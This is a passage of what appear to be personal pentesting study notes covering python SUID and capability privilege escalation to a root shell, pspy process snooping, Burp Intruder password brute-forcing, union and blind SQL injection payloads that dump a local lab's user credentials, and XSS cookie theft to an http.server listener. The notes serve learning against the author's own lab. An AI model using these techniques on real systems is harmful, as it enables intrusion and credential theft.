find -perm -4000 -ls 2>/dev/null

python3 # being not root
import os
os.system("whoami")
os.setuid(0) # root
os.system("bash")

chmod 755 /usr/bin/python3 # quit suid perm

```

#### CApabilities
```bash
getcap -r / 2>/dev/null # exec being root

# example
setcap cap_setuid+ep /usr/bin/python3.11
realpath /usr/bin/python3 # solving error
sudo setcap cap_setuid+ep /usr/bin/python3.11

getcap -r / 2>/dev/null # exec being root. we can find python 3.11
which python3.11 | xargs getcap # being root

python3 # being not root
import os
os.system("whoami")
os.setuid(0) # root
os.system("bash")

setcap -r /usr/bin/python3.11 # quitting caps
```

#### CRON
```bash
crontab -l
cat /etc/crontab

systemctl list-timers


```

#### TAreas
https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1

```bash
# -- automated
chmod +x pspy
./pspy
2025/03/06 12:59:01 CMD: UID=1000  PID=135935 | nano # res

ps -eo command
ps -eo user,command

procmon.sh


```
https://gtfobins.github.io/

https://book.hacktricks.wiki/en/index.html

## Burpsuite
### Intercept
```bash

# REPEATER= Traza

# CHeck in Proxy, options and dont sen if its out of the scope
# In TARGET, scope, add and set the URL

# PROXY - HTTP HIistory
# To do a forward and get the response we can do right cikc and seelct do intercept and the click on forward

```

#### Replace header response


#### Intercept responses too


#### Intercept and send, forward
New code 201 validation (201 TEST)


- Click on 'DROP' to cancel request

#### REplace in response body


### Intruder

`ctrl + i`



right click in password word and select `Add payload position`


#### Sniper attack
https://github.com/danielmiessler/SecLists - WArehouse of pass and FUZZ

- DOwnload file with 10,000 most used passwords and set into burpsuite
- Remove check in URL encode

#### CLuster bomb attackt
SAme attack like sniper but using username and pass. It does the payload like a anidated loop for

#### BAtering ram attack
Use tha same word int he dictionary to bot fields (user and pass)

## SQLI (SQL Injection)
```bash
apt install mariadb-server apache2 php-mysql
service mysql start
lsof -i:3306

service apache2 start
lsof -i:80

mysql -uroot -p
use mysql;
show tables;
describe user;
create user 'edibauer'@'localhost' identified by 'edibauer123';
grant all privileges on h4ckforyou.* to 'edibauer'@'localhost';

http://localhost/searchUsers.php?id=3' order by 1-- -
# the first simple comma close the internal query and the final comment comments the original simple comma in the original query

# Must be the number on columns (1,2,3,4,5,6)

http://localhost/searchUsers.php?id=369' union select "hola"-- -
# change id=369 to get empty the qwury and fill with union select

http://localhost/searchUsers.php?id=369%27%20union%20select%20database()--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(schema_name)%20from%20information_schema.schemata--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27h4ckforyou%27--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%27h4ckforyou%27%20and%20table_name=%20%27users%27--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(username)%20from%20users--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(username,%27:%27,password)%20from%20users--%20-

http://localhost/searchUsers.php?id=369%27%20union%20select%20group_concat(username,0x3a,password)%20from%20users--%20-

# If the id is not in simple comma we can put directlt the query without using smiple comma ' or coment at EOL

http://localhost/searchUsers.php?id=1 union select 1


```

https://extendsclass.com/mysql-online.html

- Boolean-based blind SQL Injection

```sql
select (select substring(username,1,1) from users where id = 1)='a'
select (select ascii(substring(username,1,1)) from users where id = 1)=97 -- ASCII


```
```bash

curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=2"

curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=2 or 1=1"

curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=2 or (select (select ascii(substring(username,1,1)) from users where id = 1)=97)"

curl -s -X GET "http://localhost/searchUsers.php?id=1" -I

❯ curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or (select (select ascii(substring(username,1,1)) from users where id = 1)=97)"
HTTP/1.1 200 OK
Date: Sun, 09 Mar 2025 19:41:39 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

## XSS Injection
```bash
python3 -m http.server 80 # to view emails

python3 -m http.server 80 2>&1 | grep -oP 'GET.*' # 2&1 send stderr to stdout

```
- In every session there is a jwt for every user
- Pass to false httponly or uncheck
- upload the file at attack person and open blog at victim's sesion to theft Cookie



```bash
echo -n "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KCiAgPGhlYWQ+CgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLCBzaHJpbmstdG8tZml0PW5vIj4KICAgIDxtZXRhIG5hbWU9ImRlc2NyaXB0aW9uIiBjb250ZW50PSIiPgogICAgPG1ldGEgbmFtZT0iYXV0aG9yIiBjb250ZW50PSIiPgoKICAgIDx0aXRsZT5Hb3NzaXAgV29ybGQgLSA8L3RpdGxlPgoKICAgIDwhLS0gQm9vdHN0cmFwIGNvcmUgQ1NTIC0tPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSIvc3RhdGljL2Nzcy9ib290c3RyYXAubWluLmNzcyI+CgoKICAgIDwhLS0gQ3VzdG9tIHN0eWxlcyBmb3IgdGhpcyB0ZW1wbGF0ZSAtLT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iL3N0YXRpYy9jc3MvYmxvZy1wb3N0LmNzcyI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Ii9zdGF0aWMvY3NzL2xvZ2luLmNzcyI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Ii9zdGF0aWMvY3NzL25ld3Bvc3QuY3NzIj4KCgogIDwvaGVhZD4KCiAgPGJvZHk+CgogICAgPCEtLSBOYXZpZ2F0aW9uIC0tPgogICAgPG5hdiBjbGFzcz0ibmF2YmFyIG5hdmJhci1leHBhbmQtbGcgbmF2YmFyLWRhcmsgYmctZGFyayBmaXhlZC10b3AiPgogICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgIDxhIGNsYXNzPSJuYXZiYXItYnJhbmQiIGhyZWY9Ii9nb3NzaXAiPkdvc3NpcCBXb3JsZDwvYT4KICAgICAgICA8YnV0dG9uIGNsYXNzPSJuYXZiYXItdG9nZ2xlciIgdHlwZT0iYnV0dG9uIiBkYXRhLXRvZ2dsZT0iY29sbGFwc2UiIGRhdGEtdGFyZ2V0PSIjbmF2YmFyUmVzcG9uc2l2ZSIgYXJpYS1jb250cm9scz0ibmF2YmFyUmVzcG9uc2l2ZSIgYXJpYS1leHBhbmRlZD0iZmFsc2UiIGFyaWEtbGFiZWw9IlRvZ2dsZSBuYXZpZ2F0aW9uIj4KICAgICAgICAgIDxzcGFuIGNsYXNzPSJuYXZiYXItdG9nZ2xlci1pY29uIj48L3NwYW4+CiAgICAgICAgPC9idXR0b24+CiAgICAgICAgPGRpdiBjbGFzcz0iY29sbGFwc2UgbmF2YmFyLWNvbGxhcHNlIiBpZD0ibmF2YmFyUmVzcG9uc2l2ZSI+CiAgICAgICAgICA8dWwgY2xhc3M9Im5hdmJhci1uYXYgbWwtYXV0byI+CiAgICAgICAgICAgIDxsaSBjbGFzcz0ibmF2LWl0ZW0iPgogICAgICAgICAgICAgIDxhIGNsYXNzPSJuYXYtbGluayIgaHJlZj0iL2dvc3NpcCI+SG9tZTwvYT4KICAgICAgICAgICAgPC9saT4KICAgICAgICAgICAgPGxpIGNsYXNzPSJuYXYtaXRlbSBhY3RpdmUiPgogICAgICAgICAgICAgIDxhIGNsYXNzPSJuYXYtbGluayIgaHJlZj0iL25ld2dvc3NpcCI+TmV3IGdvc3NpcAogICAgICAgICAgICAgICAgIDxzcGFuIGNsYXNzPSJzci1vbmx5Ij4oY3VycmVudCk8L3NwYW4+CiAgICAgICAgICAgICAgPC9hPgogICAgICAgICAgICA8L2xpPgogICAgICAgICAgICA8bGkgY2xhc3M9Im5hdi1pdGVtIj4KICAgICAgICAgICAgICA8YSBjbGFzcz0ibmF2LWxpbmsiIGhyZWY9Ii9sb2dvdXQiPkxvZ291dDwvYT4KICAgICAgICAgICAgPC9saT4KICAgICAgICAgIDwvdWw+CiAgICAgICAgPC9kaXY+CiAgICAgIDwvZGl2PgogICAgPC9uYXY+CgoKICAgICAgIDxicj4KICAgICAgIDxicj4KICAgICAgIDxkaXYgY2xhc3M9ImRpdi1wb3N0LXNpemUiPgogICAgICAgCTxkaXYgY2xhc3M9InBhbmVsIHBhbmVsLWRlZmF1bHQiPgogICAgICAgCQk8ZGl2IGNsYXNzPSJwYW5lbC1ib2R5Ij4KICAgICAgICAgICAgICAgIDxicj4KICAgICAgICAgICAgICAgIDxicj4KCiAgICAgICAgICAgICAgICA8Y2VudGVyPjxoND5OZXcgZ29zc2lwPC9oND48L2NlbnRlcj4KICAgICAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgICAgICAgICAgIAogICAgICAgICAgICAgICAgICAgIAogICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgPC9kaXY+CiAgICAgICAJCQk8Zm9ybSBhY3Rpb249Ii9uZXdnb3NzaXAiIG5hbWU9Im5ld2dvc3NpcCIgbWV0aG9kPSJQT1NUIiA+CiAgICAgICAJCQkJPGNlbnRlcj48aW5wdXQgdHlwZT0idGV4dCIgY2xhc3M9ImlucHV0LWxvZ2luIiB2YWx1ZT0iIiBuYW1lPSAidGl0bGUiIGFyaWEtZGVzY3JpYmVkYnk9InNpemluZy1hZGRvbjEiICBtYXhsZW5ndGg9IjEwMCIgcGxhY2Vob2xkZXI9IlRpdGxlIj48L2NlbnRlcj4KICAgICAgIAkJCQk8YnI+CiAgICAgICAgICAgICAgICAgIDxjZW50ZXI+PGlucHV0IHR5cGU9InRleHQiIGNsYXNzPSJpbnB1dC1sb2dpbiIgdmFsdWU9IiIgbmFtZT0gInN1YnRpdGxlIiBhcmlhLWRlc2NyaWJlZGJ5PSJzaXppbmctYWRkb24xIiAgbWF4bGVuZ3RoPSIyMDAiIHBsYWNlaG9sZGVyPSJTdWJ0aXRsZSI+PC9jZW50ZXI+CiAgICAgICAJCQkJPGJyPgogICAgICAgICAgICAgICAgICA8Y2VudGVyPjx0ZXh0YXJlYSBjbGFzcz0iaW5wdXQtbG9naW4iIHZhbHVlPSIiIG5hbWU9ICJ0ZXh0IiBhcmlhLWRlc2NyaWJlZGJ5PSJzaXppbmctYWRkb24xIiAgbWF4bGVuZ3RoPSIyMDAwIiByb3dzPSIxMCIgcGxhY2Vob2xkZXI9IlRleHQiPjwvdGV4dGFyZWE+PC9jZW50ZXI+CiAgICAgICAJCQkJPGJyPgogICAgICAgCQkJCTxpbnB1dCBuYW1lPSJfY3NyZl90b2tlbiIgdHlwZT0iaGlkZGVuIiB2YWx1ZT0iNTNjYjFmOWYtYzNjMS00ZmI1LTkzYTgtNGU5YTU1YjM1Yzg1Ij4KICAgICAgIAkJCQk8YnV0dG9uIHR5cGU9InN1Ym1pdCIgY2xhc3M9ImJ0biBmdWxsLXdpZHRoIiBzdHlsZT0id2lkdGg6IDEwMCU7ICI+R08hPC9idXR0b24+CiAgICAgICAJCQk8L2Zvcm0+CiAgICAgICAJCTwvZGl2PgogICAgICAgCTwvZGl2PgogICAgICAgPC9kaXY+CiAgICAgICA8L2JyPgogICAgICAgPC9icj4KCiAgICA8IS0tIEZvb3RlciAtLT4KICAgIDxmb290ZXIgY2xhc3M9InB5LTUgYmctZGFyayI+CiAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgPHAgY2xhc3M9Im0tMCB0ZXh0LWNlbnRlciB0ZXh0LXdoaXRlIj5Db3B5cmlnaHQgJmNvcHk7IEdvc3NpcCBXb3JsZCAyMDE4PC9wPgogICAgICA8L2Rpdj4KICAgICAgPCEtLSAvLmNvbnRhaW5lciAtLT4KICAgIDwvZm9vdGVyPgoKICAgIDwhLS0gQm9vdHN0cmFwIGNvcmUgSmF2YVNjcmlwdCAtLT4KICAgIDxzY3JpcHQgc3JjPSJ2ZW5kb3IvanF1ZXJ5L2pxdWVyeS5taW4uanMiPjwvc2NyaXB0PgogICAgPHNjcmlwdCBzcmM9InZlbmRvci9ib290c3RyYXAvanMvYm9vdHN0cmFwLmJ1bmRsZS5taW4uanMiPjwvc2NyaXB0PgoKICA8L2JvZHk+Cgo8L2h0bWw+" | base64 -d; echo

echo "Odio a mi equipo de trabajo y mi jefe es un cabrón, no me sube el sueldo" | sed 's/ /%20/g'


```


 


